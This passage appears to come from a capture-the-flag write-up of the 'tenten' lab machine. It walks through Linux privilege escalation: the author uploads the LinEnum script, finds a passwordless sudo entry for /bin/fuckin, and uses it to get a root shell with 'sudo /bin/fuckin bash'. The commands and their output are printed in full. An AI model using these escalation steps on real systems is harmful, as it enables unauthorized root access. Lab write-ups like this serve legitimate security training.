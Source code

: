 Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process. 

There are several scripts that automates this process for us.

So I go to /dev/shm and upload a privsc script called LinEnum.

The script gives us the following juicy stuff

```
[+] We can sudo without supplying a password!                                                                         
Matching Defaults entries for takis on tenten:                                  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
                                                                                                                        
User takis may run the following commands on tenten:                                                                                
    (ALL : ALL) ALL                                                                                                             
    (ALL) NOPASSWD: /bin/fuckin  
```

Let's runthe binary and see what it does

```
takis@tenten:~$ sudo /bin/fuckin
```

Nothing happens, so we could tru to just run strings onthe binary and see what se get.

```
takis@tenten:~$ strings /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
takis@tenten:~$ sudo /bin/fuckin bash
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
```
So it needed an argument that it seems to just execute.
